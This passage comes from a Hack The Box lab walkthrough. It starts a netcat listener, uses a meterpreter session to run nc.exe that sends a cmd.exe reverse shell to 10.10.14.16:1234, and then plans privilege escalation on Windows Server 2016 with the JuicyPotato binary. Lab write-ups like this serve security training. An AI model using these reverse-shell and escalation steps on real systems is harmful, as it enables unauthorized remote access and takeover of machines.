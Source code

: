 ### &#9702; ***Using Netcat***

On another terminal we can now launch a listener
``` shell 
kali@kali: ~/HTB/StartingPoint/Tools $  nc –lvp 1234
listening  on  [any]  1234 …
```

Next, we can execute the meterpeter followinginto the meterpreter session

``` code
meterpreter  >  execute  -f  nc.exe  -a  "-e  cmd.exe  10.10.14.16  1234"
```

<div style="width:100%; background-color:#252b34;text-align: center;;border: 1px solid black;" class="zoom"><img width="50%"  src="media/image109.png"></div>


And we get a netcat shell :
<div style="width:100%; background-color:#252b34;text-align: center;;border: 1px solid black;" class="zoom"><img width="50%"  src="media/image110.png"></div>


### &#9702; Privilege Escalation
======================

Running the “**sysinfo**” command on the meterpreter session, we notice
that this is a Windows Server 2016 OS, which is vulnerable to the
*Rotten Potato* exploit.
<div style="width:100%; background-color:#252b34;text-align: center;;border: 1px solid black;" class="zoom"><img width="50%"  src="media/image111.png"></div>



Let’s download the “**JuicyPotato.exe**” binary frome here :
*https://github.com/ohpe/juicy-potato/releases/download/v0.1/JuicyPotato.exe*

Let’s save the binary into our “**Tools”** folder
<div style="width:100%; background-color:#252b34;text-align: left;border: 1px solid black;" ><img width="40%"  src="media/image112.png"></div>
